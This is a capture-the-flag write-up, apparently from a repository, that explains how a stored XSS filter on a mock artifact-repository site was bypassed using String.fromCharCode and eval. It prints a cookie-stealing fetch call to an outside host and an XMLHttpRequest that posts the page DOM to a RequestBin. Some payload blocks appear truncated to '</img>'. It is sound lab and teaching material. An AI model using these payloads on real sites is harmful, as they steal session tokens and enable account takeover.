




# T2O2: Session Possession

## Problem Description

Termite, this is Cicada. Heard you had a foothold in Lucky Lion's backend systems—perhaps you could help us out for the payment of one CTF flag.

We're trying to upload a malicious Python artifact to the Lucky Lion's internal artifact repository so we can compromise more dev machines & servers. Problem is, we don't have the priviliges to upload our payload, and we're not exactly web wizards. This is where you come in: find any weakness in the website and steal the admin's session token for us. Have it sent as a URL parameter to http://wood-chewers.trees (e.g.: http://wood-chewers.trees?session=SESSION_TOKEN_HERE) and we'll handle the rest. Don't worry, as long as we see the token in the URL, we'll give you your payment.

In case you need it, you can log in with username: termite, password: hunter2

We'll await your reply.

Cantankerous Cicada

### Resources
- https://target-bincredible.chals.io

## Objectives

- Send the admin's session token as a URL parameter to http://wood-chewers.trees

## Approach and Solution

### Part 1: Getting the Exploit Working
This problem was the last problem released, just five days before the end of the event. In fact, it was the only challenge that was not released on the first day of the event. As such, everyone tried to jump on this problem with great fervor--only to be met with obstacle after obstacle.

Going to the website linked gives us this site:



This looks to be aforementioned artifcat repository. As always, we do some site exploration first. What file paths are there? What's allowed? What's not allowed?

It's immediately clear to me that we probably do need to be logged in for this challenge (or else they wouldn't have given us a username and password), so I just go ahead and do that. There are no other new pages that show up when logged in, so whatever we're looking for is probably either obfuscated or linked on the home page.

On the homepage itself, the `Upload` button does not do anything, nor do the `Download|Update` buttons.

Going through the artifacts, most of them are empty. Only two pages have anything of notes: `requests` and `beautifulsoup4`.



Similarly, `beautifulsoup4` also has a comment from the admin. In my head, they likely do the same thing, so we'll just stick with `requests` for now.

Now, there is a form to submit a comment. If we test it by submitting something random, it does in fact show up on the page (albeit with a warning that this is a CTF, so it will only be stored locally).

Opening the developer tools, we can see the source for this page:



The relevant part here is the comment form. It is a typical HTML form with a submit button, and likely sends processes the comment on submit. That's pretty much an ideal setup for XSS attacks, so I immediately begin to try XSS.

My very first command that I try to execute is a very standard XSS command: `<script>alert('XSS')</script>`. All this does is test to see if the simplest, easiest version of XSS is possible. Submitting this gets an error displayed on the website:

`Potential XSS blocked! Nothing gets past our filters! 💪`

Well! That confirms my suspicion that this is, indeed, a XSS challenge. All we have to do is figure out how to submit our XSS without triggering the filter. I used [the Port Swigger 2024 cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) to help me figure out which commands to test and run.

Very quickly, I find that this command works:
`</img>`

The pop up on the page succeeds!

However, interestingly enough, the text "XSS" does not show up on the popup. Interesting. Why is that? Is it not getting rendered?
Looking more closely at the source code of the page reveals that the single quotes have been stripped! So the filter must also strip suspicious symbols.

I do a quick check to see which symbols get stripped by the filter by submitting the following comment:

```
`~!@#$%^&*()-_=+[]\{}|;':",./<>?
```
and this gives me back this displayed comment:
```
~!@$%^*()-_=+[]\{}|;:,./<>?
```
We can see that the backtick, #, &, single quote, and double quote are all filtered out. So that means alternate ways of representing quotation marks (e.g. through Unicode) will not be possible. Thankfully, JavaScript has this great built-in function: `String.fromCharCode()`, where it simple takes in the ASCII codes of characters and transforms them into a string.

Now, if I try `</img>`, I get the alert popup with the text XSS on it.



Hooray!

### Part 2: Sending the Session Token
The session token is stored as our cookie. We can see this by simply going into Developer Tools and checking our cookies. Notably, the cookie changes every time we log in and out, but only incrementally on the second section. The last section seems to be an ever-changing HMAC. We'll hold off on this for now.

Back to the `requests` page. We need to figure out how to send data correctly to another place. Let's set up a RequestBin to handle requests, and try to forward our requests to there. The RequestBin URL is basically acting as a stand-in for the woodchewers URL--I don't have control of the woodchewers endpoint, but I do have control of the RequestBin. This basically enables me to debug and test various HTTP methods through XSS.

To do this, I first write a very quick Python script to convert any command (or series of commands) I want to input into its char code equivalent:

```python
def string_to_ascii_decimal(input_string):
    ascii_values = [ord(char) for char in input_string]
    return ','.join(map(str, ascii_values))

input_string = 'some arbitrary command, change this to whatever you want'
ascii_representation = string_to_ascii_decimal(input_string)
print(ascii_representation)
```
We also test the `eval` function on the comment. The `eval` function is very powerful in that it will literally execute any arbitrary JavaScript you put in it. In other words, if we can get `eval` to work, we can execute anything we want.

Using `eval` to create the XSS alert succeeds, so we know that we can use the `eval` function to run any arbitrary JavaScript.

From this point on, it's just a matter of testing and putting the right puzzle pieces together. I'll go more in detail on this whole process in the [Rabbit Holes](#rabbit-holes) section. I basically sent a bunch of requests to Requestbin, trying to figure out exactly what to send to woodchewers. The final command JavaScript command I ended up sending was really, really simple:

`fetch("http://wood-chewers.trees?session=" + document.cookie)`

...and, after converting to char codes, resulted in this comment input:

```javascript
</img>
```

Once we submit this comment, we get the flag:

`flag{c00k13_fr0m_the_c00k13_j@r}`

## Rabbit Holes
pain.

No, seriously, I overthought this so much. Well. I overthought O3 more, but O2 was also a victim of my chronic overthinking.

When I tell you I spent HOURS sending random requests to RequestBin, trying to figure out if I had to hijack their session cookies, trying to see if the /user endpoint actually meant anything...

### The /user Endpoint
So this site has a suburl at /user. Going to that link while not logged in will redirect you to the login page. Going to that page while logged in will return a server 502 error. THIS PAGE.

The existence of this page made me think we had to steal the security user's session cookie somehow and then go to the /user page and proceed from there. WHEN I TELL YOU I SPENT SO LONG trying to decipher the user tokens and how they were generated...

Anyways this was not the answer.

### RequestBin Pain
So RequestBin, aka Pipedream (I believe RequestBin is a service provided by Pipedream, but for the purposes of this CTF I'm going to use them interchangeably), is an online service that will handle pretty much whatever HTTP methods you throw at it. So I requested the DOM with:

```
var xhr = new XMLHttpRequest();
xhr.open("POST", "somerandomrequestbin.pipedream.net", true);
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.send("dom=" + encodeURIComponent(document.body.innerHTML));
```

which gave me the following (this was viewed in RequestBin):

```javascript
<script>
    // Create a variable to store cookie-like data
    let mockCookies = {
        session: "69189337-5f06-4529-ba37-88434e416db6"
    };

    // Override the document.cookie setter
    Object.defineProperty(document, 'cookie', {
        get: function() {
            return Object.entries(mockCookies).map(([key, value]) => `${key}=${value}`).join('; ');
        },
        set: function(cookie) {
            let [nameValue, ...options] = cookie.split('; ');
            let [name, value] = nameValue.split('=');
            mockCookies[name] = value;
        }
    });


</img>
```

I LITERALLY THOUGHT THIS WAS ANOTHER UUID PROBLEM. I was setting cookies, getting cookies, analyzing that UUID, seeing if that UUID changed between requests (it didn't), trying EVERYTHING to see if I could somehow access what I was looking for.

Something else that was kind of interesting is that when I sent that request, RequestBin actually logged two requests--one from my IP and one from a Digital Ocean IP that I identified as a Target CTF IP. So I figured out that the second IP was actually the IP of the "security user" and proceeded to look into their headers, which didn't give me that much information.

### Trying To Hijack Session Cookies
...pain.

I didn't really get anywhere with this, and I mostly just poked around before giving up and trying a method that actually worked. In any case. I probably wasted a good few hours on this too.